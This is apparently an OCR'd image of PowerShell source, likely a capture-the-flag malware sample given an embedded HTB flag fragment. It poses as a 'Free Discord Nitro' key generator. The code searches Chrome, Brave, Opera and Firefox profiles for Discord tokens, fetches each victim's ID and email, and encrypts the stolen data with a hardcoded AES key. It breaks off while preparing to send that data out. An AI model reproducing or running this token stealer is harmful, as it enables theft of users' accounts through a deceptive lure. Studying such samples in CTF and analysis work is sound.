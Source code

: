 ```powershell
|  ___|             |  _  (_)                     | | | \ | (_) |             / __  \|  _  |/ __  \ /   |
| |_ _ __ ___  ___  | | | |_ ___  ___ ___  _ __ __| | |  \| |_| |_ _ __ ___   `' / /'| |/' |`' / /'/ /| |
|  _| '__/ _ \/ _ \ | | | | / __|/ __/ _ \| '__/ _` | | . ` | | __| '__/ _ \    / /  |  /| |  / / / /_| |
| | | | |  __/  __/ | |/ /| \__ \ (_| (_) | | | (_| | | |\  | | |_| | | (_) | ./ /___\ |_/ /./ /__\___  |
\_| |_|  \___|\___| |___/ |_|___/\___\___/|_|  \__,_| \_| \_/_|\__|_|  \___/  \_____/ \___/ \_____/   |_/

                                                                                                         "
Write-Host "Generating Discord nitro keys! Please be patient..."

$local = $env:LOCALAPPDATA
$roaming = $env:APPDATA
$part1 = "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf"

$paths = @{
    'Google Chrome' = "$local\Google\Chrome\User Data\Default"
    'Brave' = "$local\BraveSoftware\Brave-Browser\User Data\Default\"
    'Opera' = "$roaming\Opera Software\Opera Stable"
    'Firefox' = "$roaming\Mozilla\Firefox\Profiles"
}

$headers = @{
    'Content-Type' = 'application/json'
    'User-Agent' = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36'
}

$allTokens = @()
foreach ($platform in $paths.Keys) {
    $currentPath = $paths[$platform]

    if (-not (Test-Path $currentPath -PathType Container)) {continue}

    $tokens = Steal -path $currentPath
    $allTokens += $tokens
}

$userInfos = @()
foreach ($token in $allTokens) {
    $userInfo = Get-DiscordUserInfo -Token $token
    if ($userInfo) {
        $userDetails = [PSCustomObject]@{
            ID = $userInfo.id
            Email = $userInfo.email
            GlobalName = $userInfo.global_name
            Token = $token
        }
        $userInfos += $userDetails
    }
}

$AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
$payload = $userInfos | ConvertTo-Json -Depth 10
$encryptedData = Encrypt-String -key $AES_KEY -plaintext $payload

try {
    $headers = @{
        'Content-Type' = 'text/plain'
```